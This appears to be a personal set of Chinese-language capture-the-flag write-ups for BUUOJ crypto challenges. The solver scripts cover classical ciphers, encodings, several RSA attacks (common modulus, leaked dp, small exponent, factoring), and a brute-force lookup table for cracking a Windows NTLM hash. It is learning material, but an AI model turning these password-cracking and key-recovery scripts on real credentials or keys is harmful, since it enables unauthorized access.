### [18 Caesar](https://buuoj.cn/challenges#%E5%87%AF%E6%92%92%EF%BC%9F%E6%9B%BF%E6%8D%A2%EF%BC%9F%E5%91%B5%E5%91%B5!)
简单分析了一下发现offset没有什么规律，使用[词频分析](http://quipqiup.com)网站。。。
```py
encodetext = "MTHJ{CUBCGXGUGXWREXIPOYAOEYFIGXWRXCHTKHFCOHCFDUCGTXZOHIXOEOWMEHZO}"

print(ord('M') - ord('f'))
print(ord('T') - ord('l'))
print(ord('H') - ord('a'))
print(ord('J') - ord('g'))
# -25 -24 -25 -29

# 65 90 97 122
print(f"{ord('A')} {ord('Z')} {ord('a')} {ord('z')}")

plaintext = ""
offset = 24
index = 0
for c in encodetext:
    if c > 'Z' or c < 'A':
        plaintext += c
        continue
    if index & 1 == 0:
        nc = ord(c) + 25
        if nc < ord('a'):
            nc += 26
        if nc > ord('z'):
            nc -= 26
        plaintext += chr(nc)
    else:
        nc = ord(c) + offset
        while nc < ord('a'):
            nc += 26
        while nc > ord('z'):
            nc -= 26
        plaintext += chr(nc)
        offset += 5
    index += 1
print(plaintext)
```
### [19 pig](https://buuoj.cn/challenges#%E8%90%8C%E8%90%8C%E5%93%92%E7%9A%84%E5%85%AB%E6%88%92)
unzip解压失败，查看文件头为Rar!...把后缀修改成.rar后解压得到图像。打开图像最下方有密文。   
使用`apt install bless`的bless打开图像，头尾都正常，未发现其它。也未查到密文中的字符是什么字符。把它们替换成字母“abcdebcfghaideejcie”也解码失败。  

猪圈密码（共济会密码）将 26 个英文字母排列在一个特定的网格中，然后用符号所在位置的“形状”或“点”来代表对应的字母。

### [20 ](https://buuoj.cn/challenges#%E6%9D%83%E9%99%90%E8%8E%B7%E5%BE%97%E7%AC%AC%E4%B8%80%E6%AD%A5)
```s
Administrator:500:806EDC27AA52E314AAD3B435B51404EE:F4AD50F57683D4260DFD48AA351A17A8:::
```
发现[MD5](https://www.cmd5.com/)查询网站上明确写明了通过穷举建立的数据库。。。
```py
# database.py
import threading
import sqlite3

class DatabaseManager:
    _instance_lock = threading.Lock()

    def __new__(cls, *args, **kwargs):
        if not hasattr(DatabaseManager, "_instance"):
            with DatabaseManager._instance_lock:
                if not hasattr(DatabaseManager, "_instance"):
                    DatabaseManager._instance = object.__new__(cls)
        return DatabaseManager._instance

    def __init__(self, sDBPath = "md5.db"):
        self.sDBPath = sDBPath
        self.lTables = []
        self.bConnect = False
        self.db = None
        self.sTableName = "table_md5"

    def connect(self):
        if self.bConnect == True:
            return
        self.db = sqlite3.connect(self.sDBPath)
        self.bConnect = True
        self.cursor = self.db.cursor()

    def disconnect(self):
        if self.bConnect == False:
            return
        self.db.close() 
        self.bConnect = False

    def createTable(self, sTableName = "table_md5", lColumns = {"md5": "VARCHAR(80) PRIMARY KEY", "plain": "VARCHAR(50) NOT NULL"}):
        if self.bConnect == False:
            self.connect()

        self.deleteTable(sTableName)

        columns_def = ", ".join([f"{col_name} {data_type}" 
                                   for col_name, data_type in lColumns.items()])
        create_sql = f"CREATE TABLE IF NOT EXISTS {sTableName} ({columns_def})"
        self.execute(create_sql)
        
    def deleteTable(self, sTableName = "table_md5"):
        if self.bConnect == False:
            self.connect()

        self.cursor.execute(f"DROP TABLE IF EXISTS {sTableName}") 

    def insertTable(self, sTableName = "table_md5", lData = {"md5": "", "plain": ""}):
        if self.bConnect == False:
            self.connect()

        columns = ", ".join(lData.keys())
        values = ', '.join([f"'{value}'" for value in lData.values()])
        insert_sql = f"INSERT INTO {sTableName} ({columns}) VALUES ({values})"
            
        self.execute(insert_sql)

    def commit(self):
        self.db.commit()

    def search(self, sTableName = "table_md5", lCondition = {"md5": "F4AD50F57683D4260DFD48AA351A17A8"}):
        if self.bConnect == False:
            self.connect()

        search_cond = "".join([f"{col_name} = '{col_value}'" for col_name, col_value in lCondition.items()])
        search_sql = f"SELECT plain FROM {sTableName} WHERE {search_cond}"
        return self.execute(search_sql)
        
    def execute(self, execute_sql):
        if self.bConnect == False:
            self.connect()

        print(f"execute {execute_sql}")
        try:
            self.cursor.execute(execute_sql)
            result = self.cursor.fetchall()
            return result
        except sqlite3.Error as e:
            print(f"Exception {e}")
        return None
    
DBManager = DatabaseManager()
```
```py
#ManageMd5DB.py
import hashlib
import string
import itertools

from database import DBManager

def md5_hash(text = ""):
    text_md5 = hashlib.md5(text.encode()).hexdigest().lower()
    return text_md5

def ntlm_hash(password = ""):
    ntlm_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest().lower()
    return ntlm_hash

def createDB(minlen = 1, maxlen = 8):
    DBManager.createTable()

    # charset = string.printable
    # charset = string.ascii_letters + string.digits + string.punctuation
    charset = string.digits
    for curlen in range(minlen, maxlen):
        print(f"curlen = {curlen}")
        for text in itertools.product(charset, repeat=curlen):
            text = ''.join(text)
            text_md5 = ntlm_hash(text).lower()

            DBManager.insertTable(sTableName="table_md5", lData={"md5": text_md5, "plain": text})
    DBManager.commit()
    DBManager.disconnect()

def searchDB():
    text = "4"
    text_md5 = ntlm_hash(text).lower()
    result = DBManager.search(sTableName="table_md5", lCondition={"md5": text_md5})
    print(result)

    text_md5 = 'F4AD50F57683D4260DFD48AA351A17A8'.lower()
    result = DBManager.search(sTableName="table_md5", lCondition={"md5": text_md5})
    print(result)

if __name__ == '__main__':
    createDB()
    searchDB()
```
### [21 RSA1](https://buuoj.cn/challenges#RSA1)
(p, q, dp, dq, c) -> m
```py
p = 8637633767257008567099653486541091171320491509433615447539162437911244175885667806398411790524083553445158113502227745206205327690939504032994699902053229 
q = 12640674973996472769176047937170883420927050821480010581593137135372473880595613737337630629752577346147039284030082593490776630572584959954205336880228469 
dp = 6500795702216834621109042351193261530650043841056252930930949663358625016881832840728066026150264693076109354874099841380454881716097778307268116910582929 
dq = 783472263673553449019532580386470672380574033551303889137911760438881683674556098098256795673512201963002175438762767516968043599582527539160811120550041 
c = 24722305403887382073567316467649080662631552905960229399079107995602154418176056335800638887527614164073530437657085079676157350205351945222989351316076486573599576041978339872265925062764318536089007310270278526159678937431903862892400747915525118983959970607934142974736675784325993445942031372107342103852

def rsa_crt_decrypt(p, q, dp, dq, c):
    """
    RSA decryption using Chinese Remainder Theorem (CRT) optimization.
    
    Parameters:
    p, q: prime factors of n
    dp: d mod (p-1)
    dq: d mod (q-1)
    c: ciphertext
    
    Returns:
    m: decrypted message
    """
    try:
        # qinv = q^(-1) mod p
        qinv = pow(q, -1, p)
        # mp = c^dp mod p
        mp = pow(c, dp, p)
        # mq = c^dq mod q  
        mq = pow(c, dq, q)
        # h = qinv * (m1 - m2) mod p
        h = (qinv * (mp - mq)) % p
        # m = m2 + h * q
        m = mq + h * q
        return m
    except Exception as e:
        print(f"Error during decryption: {e}")
        return None

if __name__ == "__main__":
    # print(f"Ciphertext: {c}")
    message = rsa_crt_decrypt(p, q, dp, dq, c)
    message_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big').decode()
    print(message_bytes)
```
### [22 Classical cipher](https://buuoj.cn/challenges#%E4%BC%A0%E7%BB%9F%E7%9F%A5%E8%AF%86+%E5%8F%A4%E5%85%B8%E5%AF%86%E7%A0%81)
```py
cipher = '辛卯，癸巳，丙戌，辛未，庚辰，癸酉，己卯，癸巳'

def xindex(c, x = '甲乙丙丁戊己庚辛壬癸'):
    for i, xx in enumerate(x):
        if c == xx:
            return i
    return -1
        
def yindex(c, y = '子丑寅卯辰巳午未申酉戌亥'):
    for i, yy in enumerate(y):
        if c == yy:
            return i
    return -1

words = cipher.split('，')
nums = []
for w in words:
    xi = xindex(w[0])
    yi = yindex(w[1])
    st = (yi - xi) % 12
    offset = 0
    if st != 0:
        offset = 10 * (6 - st / 2)
    num = offset + xi + 1
    nums.append((int)(num + 60))
print(nums)

res = ''
for num in nums:
    c = chr(num) 
    res += c
print(res)
# XZSDMFLZ

def barrier(cipher = 'XZSDMFLZ'):
    lens = len(cipher)
    for key in range(2, lens // 2 + 1):
        res_bar = ''
        for row in range(key):
            res_row = ''
            idx = row
            while idx < lens:
                res_row += cipher[idx]
                idx += key
            res_bar += res_row
        print('barrier ', key, res_bar)
        caesar(res_bar)

# import itertools
# def iter(cipher = 'XZSDMFLZ'):
#     charset = cipher
#     for text in itertools.permutations(charset, len(cipher)):
#         print('iter', text)
#         caesar(text)

def caesar(cipher = 'XZSDMFLZ'):
    for key in range(-26, 26, 1):
        res = ''
        for c in cipher:
            ncord = ord(c) + key
            if ncord > ord('Z'):
                ncord -= 26
            if ncord < ord('A'):
                ncord += 26
            nc = chr(ncord) 
            res += nc
        print(key, res.lower())

# iter(res)
barrier(res)
# SHUANGYU
```
### [23 ](https://buuoj.cn/challenges#%E4%B8%96%E4%B8%8A%E6%97%A0%E9%9A%BE%E4%BA%8B)
```sh
VIZZB IFIUOJBWO NVXAP OBC XZZ UKHVN IFIUOJBWO HB XVIXW XAW VXFI X QIXN VBD KQ IFIUOJBWO WBKAH NBWXO VBD XJBCN NKG QLKEIU DI XUI VIUI DKNV QNCWIANQ XN DXPIMKIZW VKHV QEVBBZ KA XUZKAHNBA FKUHKAKX XAW DI VXFI HBN QNCWIANQ NCAKAH KA MUBG XZZ XEUBQQ XGIUKEX MUBG PKAWIUHXUNIA NVUBCHV 12NV HUXWI XAW DI XUI SCQN QB HZXW NVXN XZZ EBCZW SBKA CQ NBWXO XAW DI DXAN NB NVXAP DXPIMKIZW MBU JIKAH QCEV XA BCNQNXAWKAH VBQN HKFI OBCUQIZFIQ X JKH UBCAW BM XLLZXCQI XAW NVI PIO KQ 640I11012805M211J0XJ24MM02X1IW09

and the key is 640e11012805f211b0ab24ff02a1ed09
```
```py
cipher = '640e11012805f211b0ab24ff02a1ed09'
```
### [24 Unencode](https://buuoj.cn/challenges#Unencode)
```sh
89FQA9WMD<V1A<V1S83DY.#<W3$Q,2TM]
```
UUencode首位长度位，每个字符的 ASCII 码减 32 得到 6 位值（0-63）。每 4 个字符解码为 3 个字节（因为 4×6=24 位 = 3 字节）。
```py
s = "89FQA9WMD<V1A<V1S83DY.#<W3$Q,2TM]"
print(len(s))
# 每字符减32
vals = [ord(c) - 32 for c in s]
vals = vals[1:]
# 每4个值转3字节
out_bytes = bytearray()
for i in range(0, len(vals), 4):
    a, b, c, d = vals[i:i+4]
    # 将4个6位值合并为24位
    combined = (a << 18) | (b << 12) | (c << 6) | d
    # 取出3个字节
    out_bytes.append((combined >> 16) & 0xFF)
    out_bytes.append((combined >> 8) & 0xFF)
    out_bytes.append(combined & 0xFF)

print("Hex:", out_bytes.hex())
print("As ASCII:", out_bytes)

# 尝试 UTF-8 解码
try:
    print("Decoded text:", out_bytes.decode('utf-8'))
except:
    pass
```
### [25 Old-fashion](https://buuoj.cn/challenges#old-fashion)
```
Os drnuzearyuwn, y jtkjzoztzoes douwlr oj y ilzwex eq lsdexosa kn pwodw tsozj eq ufyoszlbz yrl rlufydlx pozw douwlrzlbz, ydderxosa ze y rlatfyr jnjzli; mjy gfbmw vla xy wbfnsy symmyew (mjy vrwm qrvvrf), hlbew rd symmyew, mebhsymw rd symmyew, vbomgeyw rd mjy lxrzy, lfk wr dremj. Mjy eyqybzye kyqbhjyew mjy myom xa hyedrevbfn lf bfzyewy wgxwmbmgmbrf. Wr mjy dsln bw f1_2jyf-k3_jg1-vb-vl_l
```
词频分析，但首句没意义。。。
### [26 Morse](https://buuoj.cn/challenges#[AFCTF2018]Morse)
```c++
#include <iostream>
#include <unordered_map>

int main() {
    std::unordered_map<std::string, char> maps;
    maps[".-"] = 'A';
    maps["-..."] = 'B';
    maps["-.-."] = 'C';
    maps["-.."] = 'D';
    maps["."] = 'E';
    maps["..-."] = 'F';
    maps["--."] = 'G';
    maps["...."] = 'H';
    maps[".."] = 'I';
    maps[".---"] = 'J';
    maps["-.-"] = 'K';
    maps[".-.."] = 'L';
    maps["--"] = 'M';
    maps["-."] = 'N';
    maps["---"] = 'O';
    maps[".--."] = 'P';
    maps["--.-"] = 'Q';
    maps[".-."] = 'R';
    maps["..."] = 'S';
    maps["-"] = 'T';
    maps["..-"] = 'U';
    maps["...-"] = 'V';
    maps[".--"] = 'W';
    maps["-..-"] = 'X';
    maps["-.--"] = 'Y';
    maps["--.."] = 'Z';
    
    maps["-----"] = '0';
    maps[".----"] = '1';
    maps["..---"] = '2';
    maps["...--"] = '3';
    maps["....-"] = '4';
    maps["....."] = '5';
    maps["-...."] = '6';
    maps["--..."] = '7';
    maps["---.."] = '8';
    maps["----."] = '9';

    maps[".-.-.-"] = '.';
    maps["--..--"] = ',';
    maps["..--.."] = '?';
    maps[".----."] = '\'';
    maps["-.-.--"] = '!';
    maps["-..-."] = '/';
    maps["-.--."] = '(';
    maps["-.--.-"] = ')';
    maps[".-..."] = '&';
    maps["---..."] = ':';
    maps["-.-.-."] = ';';
    maps["-...-"] = '=';
    maps[".-.-."] = '+';
    maps["-....-"] = '-';
    maps["..--.-"] = '_';
    maps[".-..-."] = '\"';
    maps["...-..-"] = '$';
    maps[".--.-."] = '@';

    std::string cipher = "-..../.----/-..../-..../-..../...--/--.../....-/-..../-..../--.../-.../...--/.----/--.../...--/..---/--.../--.../....-/...../..-./--.../...--/...--/-----/...../..-./...--/...--/...--/....-/...--/...../--.../----./--.../-..";
    auto stPos = 0;
    auto endPos = std::string::npos;
    std::string res = "";
    while (true) {
        endPos = cipher.find_first_of('/', stPos);
        if (endPos == std::string::npos) {
            auto itr = maps.find(cipher.substr(stPos));
            if (itr == maps.end()) {
                printf("not found %s\n", cipher.substr(stPos));
                break;
            }
            res += itr->second;
            break;
        }
        auto itr = maps.find(cipher.substr(stPos, endPos - stPos));
        if (itr == maps.end()) {
            printf("not found %s [%d - %d]\n", cipher.substr(stPos, endPos - stPos).c_str(), stPos, endPos);
            break;
        }
        res += itr->second;
        stPos = endPos + 1;
    }
    printf("%s\n", res.c_str());
    return 0;
}
// 61666374667B317327745F73305F333435797D -> ascii hex -> afctf{1s't_s0_345y}
```
### [27 RSA3](https://buuoj.cn/challenges#RSA3)
RSA 相同模数攻击，两次加密使用相同的模数 n 和相同的明文 m, gcd(e1, e) = 1
c1 = m^e1 (mod n) c2 = m^e2 (mod n)

e1 s + e2 t = 1

c1^s c2^t = m ^ {e1 s} m ^{e2 t} = m (mod n)

```py
c1=22322035275663237041646893770451933509324701913484303338076210603542612758956262869640822486470121149424485571361007421293675516338822195280313794991136048140918842471219840263536338886250492682739436410013436651161720725855484866690084788721349555662019879081501113222996123305533009325964377798892703161521852805956811219563883312896330156298621674684353919547558127920925706842808914762199011054955816534977675267395009575347820387073483928425066536361482774892370969520740304287456555508933372782327506569010772537497541764311429052216291198932092617792645253901478910801592878203564861118912045464959832566051361
n=22708078815885011462462049064339185898712439277226831073457888403129378547350292420267016551819052430779004755846649044001024141485283286483130702616057274698473611149508798869706347501931583117632710700787228016480127677393649929530416598686027354216422565934459015161927613607902831542857977859612596282353679327773303727004407262197231586324599181983572622404590354084541788062262164510140605868122410388090174420147752408554129789760902300898046273909007852818474030770699647647363015102118956737673941354217692696044969695308506436573142565573487583507037356944848039864382339216266670673567488871508925311154801
e1=11187289
c2=18702010045187015556548691642394982835669262147230212731309938675226458555210425972429418449273410535387985931036711854265623905066805665751803269106880746769003478900791099590239513925449748814075904017471585572848473556490565450062664706449128415834787961947266259789785962922238701134079720414228414066193071495304612341052987455615930023536823801499269773357186087452747500840640419365011554421183037505653461286732740983702740822671148045619497667184586123657285604061875653909567822328914065337797733444640351518775487649819978262363617265797982843179630888729407238496650987720428708217115257989007867331698397
e2=9647291

# 扩展欧几里得算法，对于任意整数 a 和 b，存在整数 x 和 y，使得 $$ a * x + b * y = gcd(a, b)$$
def extended_gcd_iterative(a, b):
    """迭代版本的扩展欧几里得算法"""
    x0, x1, y0, y1 = 1, 0, 0, 1
    
    while b != 0:
        q = a // b
        a, b = b, a % b
        x0, x1 = x1, x0 - q * x1
        y0, y1 = y1, y0 - q * y1
    
    return a, x0, y0

def modinv(a, m):
    """使用扩展欧几里得算法求模逆"""
    gcd, x, _ = extended_gcd_iterative(a, m)
    if gcd != 1:
        raise ValueError(f"模逆不存在，因为gcd({a}, {m}) = {gcd}")
    return x % m

def common_modulus_attack(c1, e1, c2, e2, n):
    g, s, t = extended_gcd_iterative(e1, e2)
    assert(g == 1)

    if s < 0:
        s = -s
        c1 = modinv(c1, n)
    if t < 0:
        t = -t
        c2 = modinv(c2, n)
    
    # 计算 m = (c1^s * c2^t) mod n
    m1 = pow(c1, s, n)
    m2 = pow(c2, t, n)
    m = (m1 * m2) % n
    
    return m

if __name__ == "__main__":
    message = common_modulus_attack(c1, e1, c2, e2, n)
    m_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big')
    print(m_bytes)
```
### [28 RSA2](https://buuoj.cn/challenges#RSA2)
```py
e = 65537
n = 248254007851526241177721526698901802985832766176221609612258877371620580060433101538328030305219918697643619814200930679612109885533801335348445023751670478437073055544724280684733298051599167660303645183146161497485358633681492129668802402065797789905550489547645118787266601929429724133167768465309665906113
dp = 905074498052346904643025132879518330691925174573054004621877253318682675055421970943552016695528560364834446303196939207056642927148093290374440210503657

c = 140423670976252696807533673586209400575664282100684119784203527124521188996403826597436883766041879067494280957410201958935737360380801845453829293997433414188838725751796261702622028587211560353362847191060306578510511380965162133472698713063592621028959167072781482562673683090590521214218071160287665180751

edp = e * dp - 1
p = -1
for r in range(1, e - 1):
    p1 = edp // r
    if (p1 * r != edp): 
        continue
    p = p1 + 1
    if n % p != 0:
        continue
    break
q = n // p
assert (p * q == n)

def extended_gcd_iterative(a, b):
    """迭代版本的扩展欧几里得算法"""
    x0, x1, y0, y1 = 1, 0, 0, 1
    
    while b != 0:
        q = a // b
        a, b = b, a % b
        x0, x1 = x1, x0 - q * x1
        y0, y1 = y1, y0 - q * y1
    
    return a, x0, y0

def modinv(a, m):
    """计算模逆元"""
    gcd, x, y = extended_gcd_iterative(a, m)
    if gcd != 1:
        return None  # 逆元不存在
    else:
        return x % m

def calc_keys(p, q, e):
    # n = p * q
    phi = (p - 1) * (q - 1)
    d = modinv(e, phi)
    return ((e, n), (d, n))

def decrypt(ciphertext, private_key):
    d, n = private_key
    print(ciphertext)
    message = pow(ciphertext, d, n)
    return message

if __name__ == '__main__':
    public_key, private_key = calc_keys(p, q, e)
    message = decrypt(c, private_key)
    m_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big')
    print(m_bytes)
```
### [29 find text by md5](https://buuoj.cn/challenges#%E8%BF%98%E5%8E%9F%E5%A4%A7%E5%B8%88)
```py
from hashlib import md5
import string
import itertools

def calcmd5(text):
    return md5(text.encode()).hexdigest().upper()

text = "TASC?O3RJMV?WDJKX?ZM"
text_list = list(text)
text_md5 = "E903???4DAB????08?????51?80??8A?"
index = []
for i in range(len(text)):
    if text[i] == '?':
        index.append(i)

charset = string.digits + string.ascii_uppercase
for part in itertools.product(charset, repeat=len(index)):
    for i, idx in enumerate(index):
        part = ''.join(part)
        text_list[idx] = part[i]
    text = ''.join(text_list)
    textMd5 = calcmd5(text)
    found = True
    for i in range(len(text_md5)):
        if text_md5[i] == '?':
            continue
        if text_md5[i] != textMd5[i]:
            found = False
            break
    # print(text, textMd5)
    if found:
        print(text, textMd5)
        break
```
### [30 xor](https://buuoj.cn/challenges#%E5%BC%82%E6%80%A7%E7%9B%B8%E5%90%B8)
```py
if __name__ == '__main__':
    key = "asadsasdasdasdasdasdasdasdasdasdqwesqf"

    with open('./cipher.txt', 'rb') as f:
        cipher_binary = f.read()
        f.close()
    cipher = cipher_binary.decode('utf-8')
    # cipher = "UTXK\XJVSDRDXFTGVGWD]J"
    message = ""
    for i in range(len(cipher)):
        p = (ord(cipher[i]) ^ ord(key[i])) 
        message += chr(p)
    print(message)
```
### [31 RSA](https://buuoj.cn/challenges#RSA)
```sh
openssl rsa -pubin -in pub.key -text -noout
RSA Public-Key: (256 bit)
Modulus:
    00:c0:33:2c:5c:64:ae:47:18:2f:6c:1c:87:6d:42:
    33:69:10:54:5a:58:f7:ee:fe:fc:0b:ca:af:5a:f3:
    41:cc:dd
Exponent: 65537 (0x10001)
```

```py
n_hex = "00c0332c5c64ae47182f6c1c876d42336910545a58f7eefefc0bcaaf5af341ccdd"
n = int(n_hex, 16)
# n = 86934482296048119190666062003494800588905656017203025617216654058378322103517
e = 65537

with open('flag.enc', 'rb') as f:
    enc = f.read()
    f.close()
c = int.from_bytes(enc, 'big')
# c = 29666689760194689065394649908301285751747553295673979512822807815563732622178

import math
def prime(x):
    if x == 2:
        return True
    if (x & 1) == 0:
        return False
    m = (int)(math.sqrt(x)) + 1
    for i in range(3, m, 2):
        if x % i == 0:
            return False
    return True

def pq(n):
    if (n & 1) == 0:
        return 2, n // 2
    m = (int)(math.sqrt(n)) + 1
    for p in range(3, m, 2):
        if not prime(p):
            continue
        if n % p != 0:
            continue
        q = n // p
        if not prime(q):
            continue
        print(p, q)
        break
    return p, q

def extended_gcd_iterative(a, b):
    """迭代版本的扩展欧几里得算法"""
    x0, x1, y0, y1 = 1, 0, 0, 1
    
    while b != 0:
        q = a // b
        a, b = b, a % b
        x0, x1 = x1, x0 - q * x1
        y0, y1 = y1, y0 - q * y1
    
    return a, x0, y0

def modinv(a, m):
    """计算模逆元"""
    gcd, x, y = extended_gcd_iterative(a, m)
    if gcd != 1:
        return None  # 逆元不存在
    else:
        return x % m

def calc_keys(p, q, e):
    # n = p * q
    phi = (p - 1) * (q - 1)
    d = modinv(e, phi)
    return ((e, n), (d, n))

def decrypt(ciphertext, private_key):
    d, n = private_key
    print(ciphertext)
    message = pow(ciphertext, d, n)
    return message

if __name__ == '__main__':
    # p, q = pq(n)
    p = 285960468890451637935629440372639283459
    q = 304008741604601924494328155975272418463
    assert(p * q == n)
    public_key, private_key = calc_keys(p, q, e)
    message = decrypt(c, private_key)
    m_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big')
    print(m_bytes)
```
### [32 RSAROLL](https://buuoj.cn/challenges#RSAROLL)
```py
nums = []
with open('data.txt', 'r') as f:
    lines = f.readlines()
    f.close()

head = lines[0].strip()
head = head.strip('{}')
n_str, e_str = head.split(',')
n = int(n_str)
e = int(e_str)

p = 18443
q = 49891
assert(p * q == n)

for line in lines[1:]:
    line = line.strip()
    if line:
        nums.append(int(line))

def extended_gcd_iterative(a, b):
    """迭代版本的扩展欧几里得算法"""
    x0, x1, y0, y1 = 1, 0, 0, 1
    
    while b != 0:
        q = a // b
        a, b = b, a % b
        x0, x1 = x1, x0 - q * x1
        y0, y1 = y1, y0 - q * y1
    
    return a, x0, y0

def modinv(a, m):
    """计算模逆元"""
    gcd, x, y = extended_gcd_iterative(a, m)
    if gcd != 1:
        return None  # 逆元不存在
    else:
        return x % m

def calc_keys(p, q, e):
    # n = p * q
    phi = (p - 1) * (q - 1)
    d = modinv(e, phi)
    return ((e, n), (d, n))

def decrypt(ciphertext, private_key):
    d, n = private_key
    message = pow(ciphertext, d, n)
    return message

public_key, private_key = calc_keys(p, q, e)
res = ""
for num in nums:
    m = decrypt(num, private_key)
    res += chr(m)
print(res)
```
### [33 Dangerous RSA](https://buuoj.cn/challenges#Dangerous%20RSA)
低加密指数攻击
```py
n =   0x52d483c27cd806550fbe0e37a61af2e7cf5e0efb723dfc81174c918a27627779b21fa3c851e9e94188eaee3d5cd6f752406a43fbecb53e80836ff1e185d3ccd7782ea846c2e91a7b0808986666e0bdadbfb7bdd65670a589a4d2478e9adcafe97c6ee23614bcb2ecc23580f4d2e3cc1ecfec25c50da4bc754dde6c8bfd8d1fc16956c74d8e9196046a01dc9f3024e11461c294f29d7421140732fedacac97b8fe50999117d27943c953f18c4ff4f8c258d839764078d4b6ef6e8591e0ff5563b31a39e6374d0d41c8c46921c25e5904a817ef8e39e5c9b71225a83269693e0b7e3218fc5e5a1e8412ba16e588b3d6ac536dce39fcdfce81eec79979ea6872793
e =  0x3
c = 0x10652cdfaa6b63f6d7bd1109da08181e500e5643f5b240a9024bfa84d5f2cac9310562978347bb232d63e7289283871efab83d84ff5a7b64a94a79d34cfbd4ef121723ba1f663e514f83f6f01492b4e13e1bb4296d96ea5a353d3bf2edd2f449c03c4a3e995237985a596908adc741f32365

import gmpy2

m_int, exact = gmpy2.iroot(c, e)
if exact:
    hex_m = hex(m_int)[2:]
    bytes_m = bytes.fromhex(hex_m)
    print("明文 (bytes):", bytes_m)
else:
    print("直接开立方失败，尝试小 k ...")
    found = False
    for k in range(1000):
        m_try, exact = gmpy2.iroot(c + k * n, 3)
        if exact:
            print(f"k = {k} 时找到 m = {m_try}")
            hex_m = hex(m_try)[2:]
            bytes_m = bytes.fromhex(hex_m)
            print("明文:", bytes_m)
            found = True
            break
    if not found:
        print("在 k < 1000 内未找到。")
```
### [34 basic rsa](https://buuoj.cn/challenges#[HDCTF2019]basic%20rsa)
```py
p = 262248800182277040650192055439906580479
q = 262854994239322828547925595487519915551

e = 65533
n = p*q

c = 27565231154623519221597938803435789010285480123476977081867877272451638645710

def extended_gcd_iterative(a, b):
    """迭代版本的扩展欧几里得算法"""
    x0, x1, y0, y1 = 1, 0, 0, 1
    
    while b != 0:
        q = a // b
        a, b = b, a % b
        x0, x1 = x1, x0 - q * x1
        y0, y1 = y1, y0 - q * y1
    
    return a, x0, y0

def modinv(a, m):
    """计算模逆元"""
    gcd, x, y = extended_gcd_iterative(a, m)
    if gcd != 1:
        return None  # 逆元不存在
    else:
        return x % m

def calc_keys(p, q, e):
    # n = p * q
    phi = (p - 1) * (q - 1)
    d = modinv(e, phi)
    return ((e, n), (d, n))

def decrypt(ciphertext, private_key):
    d, n = private_key
    message = pow(ciphertext, d, n)
    return message

if __name__ == '__main__':
    public_key, private_key = calc_keys(p, q, e)
    message = decrypt(c, private_key)
    m_bytes = message.to_bytes((message.bit_length() + 7) // 8, 'big')
    print(m_bytes)
```
### [35 CheckIn](https://buuoj.cn/challenges#[GXYCTF2019]CheckIn)
base64 + rot47
```py
import base64
text = "dikqTCpfRjA8fUBIMD5GNDkwMjNARkUwI0BFTg=="
message = base64.b64decode(text)
# print(message)
# b'v)*L*_F0<}@H0>F49023@FE0#@EN'

res = ""
offset = ord('N') - ord('}')
print(offset)
for m in message:
    om = m
    m -= offset
    res += chr(m)
print(res)

def rot47(message):
    result = ""
    for c in message:
        if 33 <= c <= 126:
            result += chr(33 + ((c - 33 + 47) % 94))
        else:
            result += c
    return result

print(rot47(message))
```
### [36 ascii](https://buuoj.cn/challenges#%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9A%84%E5%BF%83%E5%A3%B0)
```py
nums = [11111, 4157, 16614, 5123, 14514, 3165, 16215, 1164, 17112, 6145, 16217, 1115, 16514, 3150]

res = ""
for num in nums:
    res += f"{num}"
num = 0
flag = ""
for i in range(0, len(res)):
    num = (num << 3) + (ord(res[i]) - ord('0'))
    if i % 3 == 2:
        flag += chr(num)
        num = 0
print(flag)
```
### [37 Playfair](https://buuoj.cn/challenges#Cipher)
Playfair加密算法
### [38 Base](https://buuoj.cn/challenges#[BJDCTF2020]%E8%BF%99%E6%98%AFbase??)
```py
dict = {0: 'J', 1: 'K', 2: 'L', 3: 'M', 4: 'N', 5: 'O', 6: 'x', 7: 'y', 8: 'U', 9: 'V', 10: 'z', 11: 'A', 12: 'B', 13: 'C', 14: 'D', 15: 'E', 16: 'F', 17: 'G', 18: 'H', 19: '7', 20: '8', 21: '9', 22: 'P', 23: 'Q', 24: 'I', 25: 'a', 26: 'b', 27: 'c', 28: 'd', 29: 'e', 30: 'f', 31: 'g', 32: 'h', 33: 'i', 34: 'j', 35: 'k', 36: 'l', 37: 'm', 38: 'W', 39: 'X', 40: 'Y', 41: 'Z', 42: '0', 43: '1', 44: '2', 45: '3', 46: '4', 47: '5', 48: '6', 49: 'R', 50: 'S', 51: 'T', 52: 'n', 53: 'o', 54: 'p', 55: 'q', 56: 'r', 57: 's', 58: 't', 59: 'u', 60: 'v', 61: 'w', 62: '+', 63: '/', 64: '='}

ciphertext = "FlZNfnF6Qol6e9w17WwQQoGYBQCgIkGTa9w3IQKw"

import base64

std_b64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
padding = '='
rev_dict = {v: k for k, v in dict.items()}

nums = []
for ch in ciphertext:
    nums.append(rev_dict[ch])
print("数字列表:", nums)

std_str_list = []
for n in nums:
    if n == 64:
        std_str_list.append('=')
    else:
        std_str_list.append(std_b64[n])

std_str = ''.join(std_str_list)
print("标准Base64串:", std_str)

try:
    decoded = base64.b64decode(std_str)
    print("解密结果:", decoded.decode('utf-8'))
except Exception as e:
    print("解码错误:", e)
```
### [39 BabyRSA](https://buuoj.cn/challenges#[GUET-CTF2019]BabyRSA)
RSA, (p+1)(q+1) = pq + (p+q) + 1 算得 n(=pq), e好像没用上。。。

```py
'''
p+q : 0x1232fecb92adead91613e7d9ae5e36fe6bb765317d6ed38ad890b4073539a6231a6620584cea5730b5af83a3e80cf30141282c97be4400e33307573af6b25e2ea
(p+1)(q+1) : 0x5248becef1d925d45705a7302700d6a0ffe5877fddf9451a9c1181c4d82365806085fd86fbaab08b6fc66a967b2566d743c626547203b34ea3fdb1bc06dd3bb765fd8b919e3bd2cb15bc175c9498f9d9a0e216c2dde64d81255fa4c05a1ee619fc1fc505285a239e7bc655ec6605d9693078b800ee80931a7a0c84f33c851740
e : 0xe6b1bee47bd63f615c7d0a43c529d219
d : 0x2dde7fbaed477f6d62838d55b0d0964868cf6efb2c282a5f13e6008ce7317a24cb57aec49ef0d738919f47cdcd9677cd52ac2293ec5938aa198f962678b5cd0da344453f521a69b2ac03647cdd8339f4e38cec452d54e60698833d67f9315c02ddaa4c79ebaa902c605d7bda32ce970541b2d9a17d62b52df813b2fb0c5ab1a5
